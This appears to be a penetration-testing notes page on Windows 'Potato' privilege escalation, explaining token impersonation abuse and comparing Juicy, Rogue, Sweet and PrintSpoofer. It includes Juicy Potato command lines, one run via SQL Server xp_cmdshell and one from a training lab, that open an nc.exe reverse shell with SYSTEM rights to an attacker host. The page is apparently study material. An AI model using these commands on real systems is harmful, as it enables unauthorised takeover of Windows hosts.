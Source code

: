 ```yaml
---
icon: potato
---
```


# Potatoes

## <mark style="color:yellow;">About</mark>

<mark style="color:red;">**Potato-styled attacks**</mark> is <mark style="color:purple;">**Windows privilege escalation techniques**</mark> that exploit <mark style="color:orange;">**token impersonation**</mark>**,&#x20;**<mark style="color:orange;">**NTLM relay**</mark>**, and&#x20;**<mark style="color:orange;">**COM/DCOM misconfigurations**</mark> to gain <mark style="color:green;">`SYSTEM`</mark> privileges from a lower-privileged service account. These attacks target specific **privileges assigned to service accounts**, such as:

* <mark style="color:green;">`SeImpersonatePrivilege`</mark> – Allows impersonation of another user's token.
* <mark style="color:green;">`SeAssignPrimaryTokenPrivilege`</mark> – Allows assignment of a token to a process.

### <mark style="color:yellow;">Common Principles:</mark>

1. <mark style="color:blue;">**Privilege Escalation via Token Impersonation**</mark>
   * They exploit <mark style="color:green;">`SeImpersonatePrivilege`</mark> to impersonate a SYSTEM token.
   * Some variants also abuse <mark style="color:green;">`SeAssignPrimaryTokenPrivilege`</mark> to assign SYSTEM tokens to processes.
2. <mark style="color:blue;">**Exploitation of Windows Authentication or COM Services**</mark>
   * **Older Potatoes (Rotten, Juicy)**: Use **DCOM activation** to trigger SYSTEM-level COM objects.
   * **Newer Potatoes (Sweet, Bad, Rogue, Print)**: Leverage **NTLM authentication relay** and **RPC abuse** to request privileged tokens.
3. <mark style="color:blue;">**No Exploits Needed – Just Misuse of Windows Features**</mark>
   * These attacks work **without exploiting a software vulnerability**—they abuse **legitimate Windows functionalities** like COM objects, NTLM relay, and DCOM interfaces.

### <mark style="color:yellow;">**Comparison of Major Potato Attacks**</mark>

| **Exploit**       | **Method Used**                    | **Target Privileges**                                                                                                         | **Works on Modern Windows?**    |
| ----------------- | ---------------------------------- | ----------------------------------------------------------------------------------------------------------------------------- | ------------------------------- |
| **Rotten Potato** | NTLM Relay (Fake RPC server)       | <mark style="color:green;">`SeImpersonatePrivilege`</mark>                                                                    | ❌ (Patched)                     |
| **Juicy Potato**  | COM Object Spoofing (CLSID)        | <mark style="color:green;">`SeImpersonatePrivilege`</mark>                                                                    | ❌ (Patched, requires CLSID)     |
| **Sweet Potato**  | NTLM Relay via DCOM Task Scheduler | <mark style="color:green;">`SeImpersonatePrivilege`</mark>, <mark style="color:green;">`SeAssignPrimaryTokenPrivilege`</mark> | ✅ (Works on modern Windows)     |
| **Rogue Potato**  | RPC/DCOM NTLM Capture              | <mark style="color:green;">`SeImpersonatePrivilege`</mark>                                                                    | ✅ (Bypasses Juicy Potato patch) |
| **PrintSpoofer**  | Named Pipe + Print Spooler Trick   | <mark style="color:green;">`SeImpersonatePrivilege`</mark>                                                                    | ✅ (Works on modern Windows)     |

## <mark style="color:yellow;">Juicy Potato</mark>

In Windows, every process has a <mark style="color:purple;">**token containing account information**</mark>, which can be exploited if the <mark style="color:green;">`SeImpersonatePrivilege`</mark> privilege is available. This privilege, often found in **service accounts**, allows a process to impersonate another, enabling privilege escalation from <mark style="color:purple;">**Administrator to SYSTEM**</mark>.

Legitimate programs use this for tasks like calling **WinLogon** to obtain a SYSTEM token. Attackers exploit this via <mark style="color:orange;">**Potato-style attacks**</mark> tricking a SYSTEM process into connecting to a malicious one, allowing token theft.

This privilege is common in <mark style="color:yellow;">**web shells, Jenkins RCE, and MSSQL command execution**</mark>. If found, it often provides an easy path to SYSTEM access. Always check for it after gaining code execution.

### **Example**

```sql
SQL> xp_cmdshell c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 13.13.13.13 1337 -e cmd.exe" -t *
```

1. <mark style="color:blue;">**Execute Juicy Potato via**</mark> <mark style="color:green;">`xp_cmdshell`</mark>

* <mark style="color:green;">`xp_cmdshell`</mark> allows OS command execution in **SQL Server**.
* If enabled, it can run Juicy Potato under the SQL Server service account.
* The service account often has <mark style="color:green;">`SeImpersonatePrivilege`</mark>, which is required for Juicy Potato.

2. <mark style="color:blue;">**Abuse Token Impersonation**</mark>

* Juicy Potato listens on port <mark style="color:green;">`53375`</mark> for a COM request (<mark style="color:green;">`-l 53375`</mark>).
* It spawns <mark style="color:green;">`cmd.exe`</mark> <mark style="color:green;"></mark><mark style="color:green;">(</mark><mark style="color:green;">`-p c:\windows\system32\cmd.exe`</mark>) and executes a **reverse shell** with <mark style="color:green;">`nc.exe`</mark>.
* The attack succeeds if the SQL Server service can **impersonate SYSTEM**.

3. <mark style="color:blue;">**Reverse Shell Execution via Netcat**</mark>

*   <mark style="color:green;">`cmd.exe`</mark> runs with SYSTEM privileges and executes:

    ```bash
    c:\tools\nc.exe 13.13.13.13 1337 -e cmd.exe
    ```
* This connects back to <mark style="color:yellow;">**13.13.13.13:1337 (attacker host)**</mark>, giving an attacker **SYSTEM** shell access.

### &#x20;Example 2

I used this example for one task in Academy, used it from command injection powershell reverse shell

```powershell
.\JuicyPotato.exe -l 53375 -c "{7A6D9C0A-1E7A-41B6-82B4-C3F7A27BA381}" -p c:\windows\system32\cmd.exe -a "/c c:\windows\temp\nc.exe -e cmd.exe 13.13.13.13 9999" -t *
```

